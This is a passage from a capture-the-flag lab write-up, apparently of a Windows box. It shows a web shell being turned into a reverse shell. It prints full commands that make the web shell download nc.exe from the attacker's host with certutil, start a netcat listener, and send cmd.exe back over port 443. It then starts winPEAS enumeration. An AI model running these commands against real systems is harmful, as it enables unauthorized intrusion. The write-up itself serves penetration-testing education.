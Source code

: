![Desktop View](user4.png){: w="700" h="400" }
_whoami in Web Shell_

We can see that we have gained `RCE` as the `phoebe` user.

### Reverse Shell

Now we will try to convert this web shell into a reverse shell. In order to do this, we have to download the Windows [Netcat](http://netcat.sourceforge.net/) binary and host it on an HTTP server with `python3 -m http.server`.

From the web shell, we will transfer the binary to the target machine, in order to execute it and gain a reverse shell. To do this, we will use `certutil.exe`:

```text
http://10.10.10.239/Images/test.php?cmd=certutil.exe%20-f%20-split%20-urlcache%20http://10.10.15.1/nc.exe
```

![Desktop View](user5.png){: w="700" h="400" }
_Netcat transfer_

Once we have the `Netcat` binary on the target machine, we will send a reverse shell to our machine. To do this, the first thing to do is to listen in a port of our machine, in this case in the `443`:

```bash
nc -nlvp 443
```

In the browser, using the binary that we have just transferred:

```text
http://10.10.10.239/images/test.php?cmd=nc.exe%20-e%20cmd.exe%2010.10.15.1%20443
```

![Desktop View](user6.png){: w="700" h="400" }
_Reverse Shell whoami_

We will proceed to read the `user.txt` flag in the `C:\Users\phoebe\Desktop`{: .filepath} directory.

## System Shell
---

### Enumeration

At this point, we have to enumerate the target machine in order to escalate privileges. To do this, we will use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

First we will check the architecture and the version of Windows of the target machine using the `systeminfo` command:

![Desktop View](root1.png){: w="700" h="400" }
_Systeminfo_
